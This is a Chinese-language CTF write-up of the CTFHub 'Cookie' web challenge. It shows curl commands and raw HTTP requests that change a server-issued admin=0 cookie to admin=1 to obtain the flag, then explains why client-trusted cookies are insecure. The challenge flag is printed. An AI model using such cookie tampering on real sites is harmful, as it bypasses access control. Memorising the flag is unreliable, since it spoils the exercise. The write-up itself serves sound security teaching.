

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800/ |
| Flag | ctfhub{90d6aceb747540a4775abf00} |

## 解题过程

第一次访问靶场，页面正文只有一句 `hello guest. only admin can get flag.`，没有任何可交互的输入框，也没有登录入口。这说明判断身份的东西不在 URL 里，而在报文的其他位置。

我在 Kali 终端里先看这条请求的原始响应头：`curl -s -i 'http://challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800/'`，响应头里有一行 **`Set-Cookie: admin=0`**，正文是 `hello guest. only admin can get flag.`。也就是说，服务器在第一次响应里主动把一个名为 `admin`、值为 `0` 的 Cookie 塞给了我，后续页面就是靠这个值来判断我是"guest"还是"admin"。

既然服务端完全信任我上报的这个值，那就直接在请求头里把它改成 `admin=1`。用 `curl -v -b 'admin=1' 'http://...'` 重放这条请求，`-v` 会把请求头也打出来，能清楚看到 `> Cookie: admin=1` 被真的发出去了。改完之后正文从 `hello guest` 变成了 flag。

为了确认浏览器里的表现和终端一致，我也在 DevTools 的 **Network** 面板里复看过这条请求的请求头，`Cookie: admin=1` 确实随请求一起发出，这就是 Cookie 题的全部机关。

## 关键请求/响应

```http
--- 第一次访问，服务器下发 Cookie ---

GET / HTTP/1.1
Host: challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800
User-Agent: curl/8.20.0
Accept: */*

HTTP/1.1 200 OK
Date: Fri, 30 Oct 2026 09:42:44 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
X-Powered-By: PHP/5.6.40
Set-Cookie: admin=0

hello guest. only admin can get flag.

--- 浏览器带回来的原始 Cookie ---

GET / HTTP/1.1
Host: challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800
Cookie: admin=0

--- 改掉 Cookie 后重放 ---

GET / HTTP/1.1
Host: challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800
User-Agent: curl/8.20.0
Accept: */*
Cookie: admin=1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

ctfhub{90d6aceb747540a4775abf00}

--- curl 复现（-v 同时打出请求头和响应头） ---

$ curl -s -v -b 'admin=1' 'http://challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800/'
> GET / HTTP/1.1
> Host: challenge-cecbdabaa1c6c05d.sandbox.ctfhub.com:10800
> Cookie: admin=1
< HTTP/1.1 200 OK
ctfhub{90d6aceb747540a4775abf00}
```

## 原理与复盘

Cookie 在 HTTP 报文的**请求头**里，形如 `Cookie: 键=值`，多个键值用分号分隔；服务器第一次用响应头 `Set-Cookie` 把它发下来，浏览器之后每次请求都会自动带上。

服务器之所以能"认出你是谁"，靠的就是这个客户端自愿上报的字符串，所以凡是把权限判断只放在 Cookie 里、值又是可猜可改的明文（`admin=0` 改成 `admin=1` 这种），就等于把身份开关交给了用户。正确做法是 Cookie 里只放一个不可预测的 Session ID，真正的身份和权限存在服务端，并且给 Cookie 加上 HttpOnly、Secure、SameSite。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
